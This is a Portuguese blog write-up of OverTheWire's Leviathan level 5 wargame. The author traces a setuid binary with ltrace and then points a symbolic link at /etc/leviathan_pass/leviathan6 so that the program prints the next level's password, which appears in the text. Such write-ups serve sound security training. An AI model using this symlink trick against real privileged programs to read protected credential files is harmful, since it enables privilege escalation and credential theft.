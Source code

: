 ```yaml
---
layout: default
title: Level 5 Abusando links simbólicos [OverTheWire CTF – Leviathan] write-up
date: 2016-11-16 19:29
author: brennords
comments: true
categories: [CTFs]
---
```

<ul>
    <li><a href="https://brenn0.wordpress.com/2016/10/31/level-0-e-1-overthewire-ctf-leviathan-write-ups/">Level 0</a></li>
    <li><a href="https://brenn0.wordpress.com/2016/11/02/level-1-overthewire-ctf-leviathan-write-up/">Level 1</a></li>
    <li><a href="https://brenn0.wordpress.com/2016/11/06/level-2-overthewire-ctf-leviathan-write-up/">Level 2</a></li>
    <li><a href="https://brenn0.wordpress.com/2016/11/12/level-3-overthewire-ctf-leviathan-write-up/">Level 3</a></li>
    <li><a href="https://brenn0.wordpress.com/2016/11/13/level-4-overthewire-ctf-leviathan-write-up/">Level 4</a></li>
</ul>

<blockquote>Com o evoluir dos write-ups, vou começando a ficar mais breve. Como, por exemplo, a essa altura nem precisa falar mais que estou logado como leviathan5 no servidor ssh, certo?

Se chegou aqui de para-quedas e voar em alguma coisa, volte ao level0 ;)</blockquote>

```
leviathan5@melinda:~$ ls -alh
total 28K
drwxr-xr-x   2 root       root       4.0K Nov 14  2014 .
drwxr-xr-x 172 root       root       4.0K Jul 10 14:12 ..
-rw-r--r--   1 root       root        220 Apr  9  2014 .bash_logout
-rw-r--r--   1 root       root       3.6K Apr  9  2014 .bashrc
-rw-r--r--   1 root       root        675 Apr  9  2014 .profile
-r-sr-x---   1 leviathan6 leviathan5 7.5K Nov 14  2014 leviathan5
```

<strong>leviathan5</strong> será o explorado da vez.

```
leviathan5@melinda:~$ ./leviathan5
Cannot find /tmp/file.log
```

Ok, se for para agradar, eu crio o arquivo <strong>file.log</strong> em <strong>/tmp</strong>.

```
leviathan5@melinda:~$ echo fodase /tmp/file.log
leviathan5@melinda:~$ ./leviathan5
fodase
```

Então leviathan5 lê o arquivo /tmp/file.log e me mostra o conteúdo?
Só ver o que ele faz por fora impossibilita a criação de teorias especificas. Hora de usar o <em>ltrace</em> (amigo de todas as horas e challs do leviathan) e descobrir o que o programa faz por baixo dos panos.

```
leviathan5@melinda:~$ ltrace ./leviathan5
__libc_start_main(0x80485ed, 1, 0xffffd794, 0x8048690 unfinished ...&amp;gt;
fopen(/tmp/file.log, r)                      = 0
puts(Cannot find /tmp/file.logCannot find /tmp/file.log
)                = 26
exit(-1 no return ...&amp;gt;
+++ exited (status 255) +++
```

Mas eu não tinha acabado de criar essa porra?
Hora de tentar de novo.

```
leviathan5@melinda:~$ echo fodase /tmp/file.log
leviathan5@melinda:~$ ltrace ./leviathan5                                       __libc_start_main(0x80485ed, 1, 0xffffd794, 0x8048690 unfinished ...&amp;gt;
fopen(/tmp/file.log, r)                      = 0x804b008
fgetc(0x804b008)                                 = 'f'
feof(0x804b008)                                  = 0
putchar(102, 0x8048720, 0xffffd79c, 0xf7e5619d)  = 102
fgetc(0x804b008)                                 = 'o'
feof(0x804b008)                                  = 0
putchar(111, 0x8048720, 0xffffd79c, 0xf7e5619d)  = 111
fgetc(0x804b008)                                 = 'd'
feof(0x804b008)                                  = 0
putchar(100, 0x8048720, 0xffffd79c, 0xf7e5619d)  = 100
fgetc(0x804b008)                                 = 'a'
feof(0x804b008)                                  = 0
putchar(97, 0x8048720, 0xffffd79c, 0xf7e5619d)   = 97
fgetc(0x804b008)                                 = 's'
feof(0x804b008)                                  = 0
putchar(115, 0x8048720, 0xffffd79c, 0xf7e5619d)  = 115
fgetc(0x804b008)                                 = 'e'
feof(0x804b008)                                  = 0
putchar(101, 0x8048720, 0xffffd79c, 0xf7e5619d)  = 101
fgetc(0x804b008)                                 = '\n'
feof(0x804b008)                                  = 0
putchar(10, 0x8048720, 0xffffd79c, 0xf7e5619dfodase
)   = 10
fgetc(0x804b008)                                 = '\377'
feof(0x804b008)                                  = 1
fclose(0x804b008)                                = 0
getuid()                                         = 12005
setuid(12005)                                    = 0
unlink(/tmp/file.log)                          = 0
+++ exited (status 0) +++
```

Tudo certo, tudo ok. A única coisa que só acabei percebendo nesse momento foi que, após ler e imprimir o conteúdo de file.log, ele o exclui. Mas ele não chama <a href="http://www.uniriotec.br/~morganna/guia/libc/cs_unlink.html">unlink </a>sem antes <a href="http://man7.org/linux/man-pages/man2/getuid.2.html">pegar meu uid real</a> (o de leviathan5). Essa última parte fez minha criatividade trabalhar. E se file.log for um <a href="https://www.vivaolinux.com.br/dica/Link-simbolico-e-hardlink">link simbólico</a> para <strong>/etc/leviathan_pass/leviathan6</strong>? Esta seria uma boa razão para pegar meu uid antes de executar unlink, porque assim o arquivo seria lido mas não excluído, afinal, antes de chamar <a href="http://manpages.ubuntu.com/manpages/trusty/pt/man2/setuid.2.html">setuid</a>, eu ainda tenho permissões de leviathan6.

Só para constar, não tenho total certeza sobre o arquivo ser excluído no fim se o programa não pegasse meu uid real (não sei como os caras do over the wire lidam com as possibilidades de alguém tentar fazer merda no ctf deles), mas esta porra faz sentido.

Hora de testar o link simbólico e ver se essa flag vem.

```
leviathan5@melinda:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@melinda:~$ ./leviathan5
ZW1pbmVt
```


